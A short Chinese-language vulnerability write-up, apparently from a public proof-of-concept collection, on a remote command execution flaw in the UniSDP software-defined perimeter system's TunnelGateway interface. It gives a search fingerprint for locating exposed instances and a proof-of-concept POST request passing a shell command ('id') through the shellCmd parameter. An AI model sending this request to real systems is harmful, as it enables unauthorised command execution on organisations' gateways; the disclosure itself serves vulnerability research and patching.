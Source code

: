 # 联软安界 UniSDP 软件定义边界系统 commondRetSt 命令执行漏洞

## 漏洞描述

联软安界UniSDP软件定义边界系统是基于零信任的下一代VPN，该系统2021.04.28版本中TunnelGateway某接口存在安全漏洞，漏洞允许攻击者将特制请求发送到服务器并远程命令执行。

## 漏洞影响

<a-checkbox checked>联软安界 UniSDP 软件定义边界系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="UniSSOView"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1658977938174-b661802b-b5c7-434b-a5e7-6f51afb02db1-20230311204818783.png)

验证POC

```php
POST /TunnelGateway/commondRetStr
  
shellCmd=id
```

![img](../../../.vuepress/public/img/1658978044203-53489913-e30b-474a-accf-09c74a9189b7.png)